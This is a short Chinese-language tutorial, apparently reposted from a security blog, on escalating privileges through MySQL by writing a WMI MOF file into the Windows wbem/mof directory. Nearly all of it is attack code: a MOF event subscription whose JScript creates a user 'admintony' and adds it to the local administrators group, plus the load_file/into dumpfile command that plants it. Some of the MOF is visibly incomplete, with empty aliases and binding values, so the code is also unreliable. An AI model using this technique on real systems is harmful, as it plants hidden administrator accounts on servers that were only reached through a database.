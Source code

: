 # MOF 提权：

> 原文：[http://book.iwonder.run/安全技术/sql/sql 提权手工辅助/2.html](http://book.iwonder.run/安全技术/sql/sql 提权手工辅助/2.html)

```
#pragma namespace("\\.\root\subscription") 

instance of __EventFilter as  
{ 
    EventNamespace = "Root\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as  
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user admintony admin /add&&net.exe localgroup administrators admintony /add\")"; 
}; 

instance of __FilterToConsumerBinding 
{ 
    Consumer   = ; 
    Filter = ; 
}; 
```

保存为 1.mof

然后 mysql 执行

```
select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'; 
```

